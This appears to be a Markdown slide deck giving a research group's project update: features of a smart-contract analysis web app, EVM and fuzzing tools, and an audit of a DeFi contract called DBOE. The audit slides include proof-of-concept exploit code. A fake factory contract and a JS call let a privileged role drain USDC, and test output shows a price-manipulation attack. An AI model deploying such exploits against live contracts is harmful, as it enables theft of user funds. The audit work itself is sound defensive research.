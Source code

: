 

# Projects update

<div >CHEN Li @ SBIP</div>

---

## verazt-webapp: New features

- **Human-Readable inputs and outputs, EOA account**
- Link and Unlink google and github accounts
- **Make patch by ChatGPT configurable**
- Update email using OTP and update username
- Renew account by user
- **Add ansible deployment playbook**


``` json
...
  "readable_input": [
          {
            "eoa": false,  <--- Whether its EOA, for internally deployed this might not be correct
            "label": "AttackerTransparent", <--- Name of the actual contract passed in
            "type": "AnotherClass", <--- Expected type as specificed in the function signature
            "uri": null,   <--- When the address is a contract, this points to the source code path if it's available.
            "value": "0xcee9d0f55a264e41acbf9c2fdd163bb077b7e261"
          }
        ]
...
```


___

## verazt-webapp: Bug Fixes

- **Fix RabbitMQ flaky connection issue**
- Resolving challenges related to solcx upgrading.
- Fix caching not working for contract summary by ChatGPT
- Fix quota displayed in frontend incorrect bug (`user.quota.numFilesRemaining`)


---

##  Audit for DBOE


- Manual auditing mainly to find business logic bugs
- Create PoC
- Found some high risk bugs

___

##  Audit for DBOE: Access control and centralization

- Access control and centralization (**by Minh**)
  - In the Decentralised Portfolio Margin (DPML) contract the MMLP (market makers
    and liquidity providers) can withdraw all stable coins from the contract

``` solidity
// Fake factory contract
...
    function balanceOf(address account) external view returns (uint256){
        return 1000000000000000000 ether;
    }

    function approve(address a, uint256 value) public returns (bool){
        return true;
    }
}
```

``` js
// MMLP can update to use contracts under his control (a fake factory contract and an address to receive ether in this case)
await dboePortfolioMarginer.connect(mmlp).updateDBOEInfo(fakeOptionFactory.address, badActor.address);
await usdc.connect(badActor).transferFrom(dboePortfolioMarginer.address, badActor.address, 100000 * ( 10 ** USDT_DECIMALS));
// ...
// =>
// hacker USDC profit: 100000 USD
```

___

##  Audit for DBOE: Price manipulation

- Denial of Service:
  - mailicious stable coin stakers (lenders) can prevent borrower from borrow money even the DPML contract
    has enough balance

- Price manipulation
  - mailicious stable coin stakers (lenders) can manipulate price to gain extremly high profit


``` bash
❯ hardhat test test/portfolioMarginerHack.spec.ts
sub1 USDC balance: 10000
sub1 staking 40 USD
sub1 USDC balance: 9960
dboePortfolioMarginer USDC balance:  BigNumber { value: "0" }
sub1 unstake 100 times
Pending pendingWithdrawalAmt BigNumber { value: "4011574073" }
...
Pending pendingWithdrawalAmt BigNumber { value: "658800586431173" }
dboePortfolioMarginer now have enough balance
sub1 unstake again
...
sub1 balance: 76872.54192536
  ```


---


## SmartFuzz and TinyEVM

- TineyEVM
  - Added **address creation override** through the inspector (benefit: state visible during a transaction)
  - Added **Live network fork**
  - Added **tracing** to help debugging transaction execution
- SmartFuzz
  - Updated to use the latest tinyevm and fixed some compatibility errors.

---


## cuEVM Project

- Learning CUDA Parallel Programming
- Created a light weight EVM Interpreter
  - Execute raw transactions with optional initial env and states
  - Parse and run de facto standard ethtest cases
- cuEvm Runner in evm-interpreter for testing to make sure cuEVM is compatible with
  standard EVM (ongoing)


---

## Support Solidity compilation in the frontend (ongoing)


- Capture compilation bugs and early feedback to users
- Reducing backend resource usage
- Reusing AST from the compilation in the backend


---

### Thank You & Questions

<img src="./defi.png" width="400" />

